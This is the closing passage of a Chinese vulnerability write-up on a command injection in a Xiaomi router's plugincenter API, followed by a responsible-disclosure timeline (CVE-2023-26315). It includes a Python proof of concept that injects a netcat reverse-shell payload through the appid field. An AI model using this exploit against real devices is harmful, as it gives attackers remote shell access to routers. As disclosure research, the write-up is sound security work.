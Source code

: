 ![img](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-51049f04e0afd58e815269aeb99c2783d49fc67e.png)

上文说过，当`api`为`629`时，传入的`payload`字段的数据会被转发给`plugincenter`程序处理。所以最后来到了`/usr/sbin/plugincenter`程序中，找到`datacenter::PluginApiMappingExtendCollection::sConstructMappingTable`函数，仍然是通过`map`建立了`api`编号和对应`handler`函数的映射关系。可以看到，当`api`编号为`629`的时候，会执行到`parseGetIdForVendor`函数进行处理。

![img](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-398f8d936cd0579d7ba71d1d4ebdfeca609e6de5.png)

在`parseGetIdForVendor`函数中，会将传入的`Json`数据内的`appid`字段作为参数传递到`PluginApi::getIdForVendor`函数中。

![img](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-188d0291f16cacc982ce5985425f4ff77135841d.png)

在`PluginApi::getIdForVendor`函数中，可以很明显地发现：**即使`appid`字段合法性检查不通过，也会被拼接入命令中并执行**。显然，这里是一个开发上的疏忽，在判断`!IsValidAppId`的条件分支内，在输出报错信息后，应当在最后加上`return ;`返回，不能继续执行下去。

![img](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-6e74a5ebd0f188a36bedba20471a0e028931fc63.png)

因此，这里存在一个命令注入漏洞，该漏洞调用链至此分析完毕。

### Poc及演示结果

这里需要自行更改一下相关`IP`和`Token`值，此处注入了反弹`shell`的命令，端口`8888`。

```python
import requests

server_ip = "192.168.50.1"
client_ip = "192.168.50.105"
token = "814c55713043e7358d3c1f42f2a98438"

nc_shell = ";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} 8888 >/tmp/f;".format(client_ip)

res = requests.post("http://{}/cgi-bin/luci/;stok={}/api/xqdatacenter/request".format(server_ip, token), data={'payload':'{"api":629, "appid":"' + nc_shell + '"}'})

print(res.text)
```

![img](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-77cfabbfe68f3965d708c04c9bb30a1cf6364726.png)

### 写在最后

此篇文章仅作抛砖引玉，在`datacenter`，`plugincenter`以及`indexservice`内不同`api`的`handler`函数可能就有几百个（当然这里可以结合`fuzz`），以及`thriftunnel`的其他`option`操作也这么往下挖下去，我想应该也会存在漏洞。笔者也只是在小米当时赏金活动那几天大概看了看，后续也没再继续深入看这些地方了，本来想留着后面继续挖的，但是准备了一年保研感觉心态发生了一些奇妙的变化，研究生可能更想去尝试下其他更深入的方面，不想再做单纯的这样挖洞了，所以也就放出来了。感兴趣的读者可继续探索，挖到了也可以分享在评论区。

------

**时间线：**

- 2023-03-26 提交漏洞报告至小米安全中心（Xiaomi Security Center）
- 2023-04-03 厂商验证后确认两个漏洞存在，并开始修复漏洞
- 2023-05-24 两个漏洞的赏金均到账（活动期间还翻倍了，挺爽）
- 2023-06-09 厂商告知漏洞已全部修复完成（但似乎补丁未立即发布）
- 2024-05-09 联系厂商分配其中一个漏洞编号 CVE-2023-26315 并披露
- 2024-06-12 CNVD 收录本文漏洞，分配编号 CNVD-2024-23093 并公开